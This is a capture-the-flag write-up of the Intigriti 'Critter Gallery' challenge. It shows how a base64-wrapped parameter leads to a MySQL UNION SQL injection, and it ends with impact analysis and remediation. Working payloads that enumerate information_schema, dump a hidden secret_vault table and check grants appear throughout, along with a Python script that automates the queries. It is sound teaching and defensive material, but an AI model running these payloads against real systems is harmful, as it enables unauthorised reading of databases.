




# Critter Gallery · Intigriti CTF 0926

**Author:** Bram Brinkmeier (`grantzero`) · **Event:** Intigriti CTF 0926 (September 2026) · **Category:** Web / SQL Injection

> **TL;DR.** A base64-wrapped gallery parameter feeds an unparameterised MySQL query. One character makes the server return a 200 with no body at all, which is the whole tell. From there it's a single-column union into a `secret_vault` table the application never links to.

## Flag

```
INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}
```

One request. The `pic` value decodes to `zzz' UNION SELECT note FROM secret_vault#`:

```
https://challenge-0926.challenges.intigriti.io/challenge.php?pic=enp6JyBVTklPTiBTRUxFQ1Qgbm90ZSBGUk9NIHNlY3JldF92YXVsdCM%3D
```



The payload sits in the heading and the flag comes back in the description slot. That's the whole bug in one screenshot.

---

## The idea in plain terms

The gallery asks the database for one animal by name, but it builds that question by pasting my input straight into it. The name is base64-encoded first, which makes the parameter look like harmless plumbing, but encoding is not protection. Decode it, and I can rewrite the question to ask for anything in the database, including a table the site never shows.

## The target

Eight animals in a grid. Click one, get an emoji, a name and a one-line description. There's no login and nothing to upload, so the whole interactive surface is a single query parameter.



The landing page is just rules and a countdown; the application is in an iframe at `/challenge.php`. Headers on the way past:

```
x-powered-by: PHP/8.2.33
server: istio-envoy
```

The tiles carry the parameter:

```html
<a class="tile" href="?pic=Zm94">     fox
<a class="tile" href="?pic=cGFuZGE="> panda
```

Base64. It stops nothing, of course (the server decodes before it does anything else), but it does a good job of making a parameter look like something the application generated instead of something you're invited to edit.

## Mapping the sinks

`?pic=Zm94` returns:



```html
<div class="art">🦊</div>
<h2>fox</h2>
<div class="desc">The red fox is a clever, highly adaptable hunter.<br></div>
```

The `<h2>` echoes my decoded input, so that's a reflection point. And the description ends in a raw, unescaped `<br>`, which means HTML is being concatenated after the value is placed. That second detail comes back later.

An unknown name gives a visibly different response:



Hit and miss are distinguishable, which hands me a boolean oracle out of ordinary application behaviour before I've found anything.

## The byte that returned nothing

First instinct, send everything at once:

```
<b>X</b>"'&`${}(){}[]/\;:
```

HTTP 200, zero bytes. That tells me something in a fifty-character string broke the application and nothing about what, so I threw it away and went one character at a time:

| input | body length | rendered as |
|---|---|---|
| `fox` | 4052 | `<h2>fox</h2>` |
| `<` | 4040 | `&lt;` |
| `>` | 4040 | `&gt;` |
| `"` | 4042 | `&quot;` |
| `&` | 4041 | `&amp;` |
| `script`, `onerror`, `javascript`, `` | ~4045 | passes through, HTML-encoded |
| **`'`** | **0** | — |

(Fifteen probes in total; the table collapses the ones that behaved identically.)

So: a single quote, and the response has no body. Not a 500, not an error string. Just nothing at all.

It's worth being careful about what that does and doesn't prove, because I initially got the mechanism wrong. Dumping the headers on the error response:

```
HTTP/2 200
x-powered-by: PHP/8.2.33
x-envoy-upstream-service-time: 3
```

PHP produced this response: the `x-powered-by` is present, so the Envoy mesh in front isn't synthesising an error page. It came back in 3ms against roughly 700ms for a normal page, so the script died early. And the body is empty instead of truncated (even the static markup that renders before the detail panel is gone), so nothing the page would normally emit reached the client.

Which mechanism did it, I can't say, but I can rule one out. A raw fatal doesn't fit: in PHP 8 a fatal error and an uncaught exception are the same event as far as the status line goes, and either sets a 500 whenever headers haven't gone out yet, which, with output buffering on, is exactly the case. A 500 is what I'd expect to see, and I don't. What does fit is the database driver in silent-error mode returning `false` and the page bailing before it rendered anything, with the status left at the 200 it was always going to be. So whatever this is, it's a handled path that handles nothing, and "unhandled" is the wrong word for it. For exploitation none of that matters: an empty body reliably means a malformed query, and the boolean test below corroborates that independently.

The same table closed a door, incidentally: every HTML metacharacter came back encoded, so the `<h2>` sink doesn't break.

## Confirming it

```sql
fox' AND '1'='1   →  description returned
fox' AND '1'='2   →  "No critter goes by that name yet."
```

Clean separation, and my closing quote balanced the query, so the injection sits inside a single-quoted string literal.

```sql
fox' OR '1'='1
```

returns all eight descriptions concatenated. The application loops the whole result set and prints every row, and that single detail is what makes the rest of this easy, it turns a blind injection, where you extract one bit at a time, into one you can read like a terminal.

A couple of syntax notes. `fox'--` errors while `fox'#` works, because MySQL wants whitespace after `--` and `#` doesn't care; through an encoding layer that trailing space is exactly the sort of thing that gets normalised away, so `#` is the safer habit. And `ORDER BY 1` works where `ORDER BY 2` errors, so there's one column:

```sql
SELECT description FROM animals WHERE name = '<decoded pic>'
```

That explains something I'd noticed earlier without understanding it. Injected rows always showed the fallback 🖼️ and my raw input in the `<h2>`; neither comes from the database, both are rendered PHP-side from the parameter.

## Dead end: the SQLi → XSS chain that wasn't

Back to that raw `<br>`. If the description itself were unescaped, this becomes a much better challenge: SQL injection used to inject stored HTML. So I tested it, using a hex literal to avoid needing a quote inside a payload that already has one (`0x3c62...` is `<b>TESTED</b>`):

```sql
zzz' UNION SELECT 0x3c623e5445535445443c2f623e#
→  <div class="desc">&lt;b&gt;TESTED&lt;/b&gt;<br></div>
```

Escaped. Two more probes narrowed the shape:

```sql
zzz' UNION SELECT 0x4141 UNION SELECT 0x4242#
→  AA<br>BB<br>

zzz' UNION SELECT 0x410a42#                     -- "A\nB"
→  A
  B<br>
```

A newline in the data comes back as a literal newline, not `<br>`. Combined with one `<br>` per row, that does rule out `nl2br()`, which would have inserted a break tag at the newline and kept the newline too.

The rest is a plausible reconstruction rather than a proof. Something like:

```php
foreach ($rows as $row) {
    echo htmlspecialchars($row['description']) . '<br>';
}
```

`htmlentities()` or `htmlspecialchars()` with various flags would all produce what I saw, and I couldn't test single-quote handling because a `'` breaks the query before it ever reaches the output. Escape-then-append is clearly the pattern, and that's why there's no XSS here. Four requests to settle it.

## Reading the database

Single-column union, multi-row rendering, `group_concat` to collapse a result set into one cell:

```sql
zzz' UNION SELECT database()#
→ critter_gallery

zzz' UNION SELECT group_concat(table_name) FROM information_schema.tables
     WHERE table_schema=database()#
→ animals,secret_vault
```

`secret_vault`. Nothing in the gallery links to it and no route reaches it, which is presumably why the flag was put there.

```sql
zzz' UNION SELECT group_concat(concat(table_name,0x3a3a,column_name))
     FROM information_schema.columns WHERE table_schema=database()#
→ animals::id, animals::name, animals::description,
  secret_vault::id, secret_vault::note

zzz' UNION SELECT note FROM secret_vault#
→ INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}
```

### Doing it in one script

Typing those by hand gets old, so here is the enumeration as a short Python script. It wraps each payload in base64, pulls the rendered cell back out of the HTML, and sleeps between requests to stay inside the challenge's rate limit. `critterdump.py` is in this repo:

```python
URL  = "https://challenge-0926.challenges.intigriti.io/challenge.php"
DESC = re.compile(r'<div class="desc[^"]*">(.*?)</div>', re.S)

def query(sql, delay=0.4):
    """Run `sql` as the injected UNION branch and return the rendered cell."""
    payload = f"zzz' UNION SELECT {sql}#"
    pic = urllib.parse.quote(base64.b64encode(payload.encode()).decode())
    with urllib.request.urlopen(f"{URL}?pic={pic}") as r:
        body = r.read().decode("utf-8", "replace")
    time.sleep(delay)                      # stay under the 3 req/sec limit
    if not body:                           # empty body == the query did not parse
        return None
    m = DESC.search(body)
    return m.group(1).replace("<br>", "\n").strip() if m else ""
```

The `if not body` branch is the empty-response oracle from earlier, doing real work: it's the only signal that separates a payload which broke the query from one that parsed. Output:

```
db      : critter_gallery
version : 8.0.46
tables  : animals,secret_vault
  animals(id,name,description)
  secret_vault(id,note)

flag    : INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}
```

## Checking the flag is the flag

CTFs plant decoys, so three checks before claiming it.

**Another flag anywhere?** `information_schema.schemata` returns only `information_schema`, `performance_schema` and `critter_gallery`, and `secret_vault` holds exactly one row. With caveats: `schemata` is privilege-filtered, so it shows what this account can see and not what exists, and `group_concat` silently truncates at `group_concat_max_len` (1024 bytes by default). Neither bit here, but both bound what the enumeration actually proves.

**A second stage?** `/flag`, `/flag.php`, `/flag.txt`, `/robots.txt`, `/.git/config`, `/source.php`, `/admin.php`, `/challenge.php.bak` all 404 or fall through to the landing page.

**Can it escalate?**

```sql
zzz' UNION SELECT group_concat(grantee,0x20,privilege_type)
     FROM information_schema.user_privileges#
→ 'gallery'@'%' USAGE
```

That needs reading carefully, and I got it wrong the first time. `user_privileges` lists **global** privileges only, and `USAGE` there means none, it does not mean the account has no privileges at all, which would be plainly false given it's reading the database in the same request. The schema grant is elsewhere:

```sql
zzz' UNION SELECT group_concat(table_schema,0x3a,privilege_type)
     FROM information_schema.schema_privileges#
→ critter_gallery:SELECT

zzz' UNION SELECT group_concat(table_name,0x3a,privilege_type)
     FROM information_schema.table_privileges#
→ (empty)
```

Schema-wide `SELECT` on `critter_gallery`, nothing table-specific, and no global privileges. `FILE` is global-only, so `LOAD_FILE()` and `INTO OUTFILE` are both unavailable and the usual pivot to file read is closed. Stacked queries were never available either (the sink executes one statement), so the read-only testing below wasn't restraint so much as the only option.

For completeness, `user()` and `@@hostname` do disclose infrastructure detail:

```sql
zzz' UNION SELECT concat(user(),0x20,0x7c,0x20,@@hostname)#
→ gallery@10.18.53.240 | db-7df4c4d979-6zwws
```

Both are pod-ephemeral, but they're real infrastructure detail leaking out of a gallery page.

## Impact

A single unauthenticated GET gives arbitrary `SELECT` execution against the application database, with the results rendered straight into the page. There is no authentication sitting in front of it and no user interaction involved.

On this asset that meant the whole `critter_gallery` schema, `secret_vault` included, a table the application exposes nowhere. Nothing about the gallery suggests it exists, and the injection reaches it anyway. Plus all of `information_schema` on top.

What bounds the damage is the database account's grants, not anything the application decides. Here that's schema-scoped `SELECT` and no `FILE`, so it stops at reading and never becomes a file read or code execution. A more generously granted account would make the same bug considerably worse.

## Remediation

1. **Parameterise the query.** The decoded name travels as a bound value, never as query text. This is the fix; the rest is defence in depth.

   ```php
   $stmt = $pdo->prepare('SELECT description FROM animals WHERE name = ?');
   $stmt->execute([$name]);
   ```

2. **Validate after decoding.** What reaches SQL is the decoded value, and there are only eight critters, so an allowlist costs nothing here.

3. **Tighten the grant.** Schema-wide `SELECT` is more than the application needs, and `secret_vault` should not be readable by the web account at all.

4. **Handle database errors.** A malformed query currently returns a 200 with a zero-length body, which is the oracle that made this easy to find. Return something whose status and length match an ordinary "not found".

## Afterword

Recon to flag was about twenty minutes. Most of the interesting work happened afterwards, going back over which of my conclusions I could actually support, and the `user_privileges` misreading is the one I'm glad I chased. Reading `USAGE` there as "this account has no privileges at all" is an easy mistake to make and an easy one to repeat, and it happens to be wrong in the direction that matters. The SELECT-only grant is why this reads as confidentiality-only instead of a file read. The injection was there either way.

Around 50 requests end to end, rate-limited under 3/sec per the programme rules, read-only throughout, confined to the one in-scope host and conducted under the programme's safe harbour.

Thanks to [@khanhdlq](https://x.com/khanhdlq) for building this one. Hiding a SQL injection behind base64 is a nice piece of misdirection, the encoding does nothing defensively, it just makes the parameter look like plumbing rather than input, and I suspect that bought it more time from more people than any filter would have.

---

*grantzero · Intigriti CTF 0926 · "Critter Gallery"*
